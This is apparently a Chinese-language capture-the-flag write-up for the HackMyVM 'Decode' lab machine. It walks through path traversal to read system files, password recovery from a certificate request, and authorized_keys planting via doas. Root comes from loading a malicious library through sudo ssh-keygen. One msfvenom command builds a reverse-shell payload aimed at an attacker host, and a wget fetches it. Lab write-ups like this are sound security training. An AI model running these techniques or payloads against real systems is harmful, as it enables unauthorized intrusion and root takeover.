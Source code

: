 # Decode

2025.02.06 https://hackmyvm.eu/machines/machine.php?vm=Decode

[video](https://www.bilibili.com/video/BV1AYNNesEBi/?vd_source=aed2f374c732513d2e535afafb1fd2ec)

## Ip

192.168.5.40

## Scan

```
PORT   STATE SERVICE
22/tcp open  ssh
80/tcp open  http
```

先访问 web 80 看看，http://192.168.5.40/robots.txt 显示了一些目录:

```
User-agent: decode
Disallow: /encode/

User-agent: *
Allow: /
Allow: /decode
Allow: ../
Allow: /index
Allow: .shtml
Allow: /lfi../
Allow: /etc/
Allow: passwd
Allow: /usr/
Allow: share
Allow: /var/www/html/
Allow: /cgi-bin/
Allow: decode.sh
```

使用 bp 抓包，修改 user-agent 为 decode，尝试访问 /encode/ 但是显示 404。访问http://192.168.5.40/decode 会在结尾自动添加/，同时根据 robots.txt 中的提示/lfi../，这里可能存在目录穿越。

http://192.168.5.40/decode/ 以此目录为基础 gobuster 再次进行扫描，发现了更多新的可访问的内容，发现能读取到一些系统内的文件。

http://192.168.5.40/decode/passwd 发现了登陆用户:

```
root:x:0:0:root:/root:/bin/bash
...
steve:$y$j9T$gbohHcbFkUEmW0d3ZeUx40$Xa/DJJdFujIezo5lg9PDmswZH32cG6kAWP.crcqrqo/:1001:1001::/usr/share:/bin/bash
decoder:x:1002:1002::/home/decoder:/usr/sbin/nologin
ajneya:x:1003:1003::/home/ajneya:/bin/bash
```

但是这个 hash 没有解密出来，继续看上面的 robots.txt 中的信息，经过测试，发现 curl http://192.168.5.40/decode../etc/passwd 也能访问到 passwd 文件。

如果以 http://192.168.5.40/decode../ 为基础，后面添加系统中的文件，就能访问其内容。

在组合 robots.txt 中的其他目录，curl http://192.168.5.40/cgi-bin/decode.sh 发现可以看到 ls 的执行效果，但是没什么用。

steve 的 home 目录在/usr/share ，gobuster 再次扫描，看看里面能找到什么文件。经过扫描发现 curl http://192.168.5.40/decode../usr/share/.bash_history 其显示内容为 rm -rf /usr/share/ssl-cert/decode.csr 查看这个文件 curl http://192.168.5.40/decode../usr/share/ssl-cert/decode.csr 得到其内容：

```
-----BEGIN CERTIFICATE REQUEST-----
MIIDAzCCAesCAQAwSDERMA8GA1UEAwwISGFja015Vk0xDzANBgNVBAgMBmRlY29k
ZTEPMA0GA1UEBwwGZGVjb2RlMREwDwYDVQQKDAhIYWNrTXlWTTCCASIwDQYJKoZI
hvcNAQEBBQADggEPADCCAQoCggEBANnSG9vEEGPRgDA/cT6NT3sMKsi6dLhKwRgy
PcRpRt1TO63kpY2PxNSgOPpydjUm34nwghy5lPL4+GBXoNOHMhQI1hUVqZXmuFB8
+DCETqXNfV5JnTRMG5tr2m4vV1HNTH+/GUueBm5R/ERu69n2xMADs4nEL3iRjOO/
19sYZIj+ZDaN3MouyqrprWy9PBwKf2VTy4prJh6nTEVSV8oRRtd+nOxfEG6890+P
lF6s0XDpv8V001aiJWSceYPIikvKXaVy45h3JoYzWsQzt3b1R22DuPjAOQ3AvZbp
V68lkF+S1rIa7gsb8oeZI16yPz+GEPVvXGzLyIYhDixdxOCFZaECAwEAAaB2MBkG
CSqGSIb3DQEJBzEMDAppNG1EM2MwZDNyMFkGCSqGSIb3DQEJDjFMMEowDgYDVR0P
AQH/BAQDAgWgMCAGA1UdJQEB/wQWMBQGCCsGAQUFBwMBBggrBgEFBQcDAjAWBgNV
HREEDzANggtoYWNrbXl2bS5ldTANBgkqhkiG9w0BAQsFAAOCAQEAO73W3pTMqSm2
A37vepuR4F3ycnFKdFyRhk1rtO1LE9OWOI3bQ7kW0wIFuRaqFONsG/mvGFgEfRR8
xpgSYmnzWJQ0nTOtGi6d7F0dFFmYIXe75+6QYM2ZwAYf3lW+HRKLXhh5FMeoXJHo
eU64o9tFdhWxcB1OLAGEG9MI6AhN62ZTrKwMq13/PIteoPAEnlVgBidxQxUVHQfO
EwMP38jzm+HESbZsNVjX4RQjtvBUAKQUTBRYuS02QqqC5ajHz0RWaGgrGIyKrip5
yRjgsjxtmadaetxSasIg5tsjSFGyyVVPsdY4umAUUm+dSobruxcyXuxXIgn27Z7M
h97It2ELpw==
-----END CERTIFICATE REQUEST-----
```

使用 openssl req -in mycsr.csr -noout -text ，得到解码后的内容为，得到了 steve 用户的密码：

```
Attributes:
    challengePassword        :i4mD3c0d3r
```

登陆 steve/i4mD3c0d3r ssh， sudo -l 发现: `(decoder) NOPASSWD: /usr/bin/openssl enc *, /usr/bin/tee` 但是没什么作用。

看看 suid，发现/usr/bin/doas，查看其配置文件：

```
steve@decode:/home/ajneya$ cat /etc/doas.conf
permit nopass steve as ajneya cmd cp
```

允许 steve 以 ajneya 身份执行 cp 命令，可以生成公钥，将其放到 /home/ajneya/.ssh/authorized_keys 中:

```
cd ~
ssh-keygen
cp id_rsa.pub id_rsa.b
chmod +r id_rsa.b
mkdir -p /tmp/b/.ssh
cp id_rsa.b /tmp/b/.ssh/authorized_keys
doas -u ajneya cp -r /tmp/b/.ssh /home/ajneya/
ssh ajneya@192.168.5.40
```

登陆后，得到了 user flag:

```
ajneya@decode:~$ cat user.txt
ee11cbb19052e40b07aac0ca060c23ee
```

sudo -l 发现：

```
(root) NOPASSWD: /usr/bin/ssh-keygen * /opt/*
```

GTFOBin 中提示:

```
sudo ssh-keygen -D ./lib.so
```

使用 msf 制作 so 文件，进行反弹：

```
msfvenom LHOST=192.168.5.3 LPORT=8888 -p linux/x64/meterpreter/reverse_tcp -f elf-so > lib.so
```

将 so 文件下载到目标机器的/tmp 文件夹中:

```
cd /tmp
wget http://192.168.5.3/z/lib.so
chmod 777 lib.so
sudo -u root /usr/bin/ssh-keygen -D /opt/../tmp/lib.so
```

执行后，得到反弹的 x64 meterpreter，最终得到 root flag:

```
cat root.txt
63a9f0ea7bb98050796b649e85481845
```
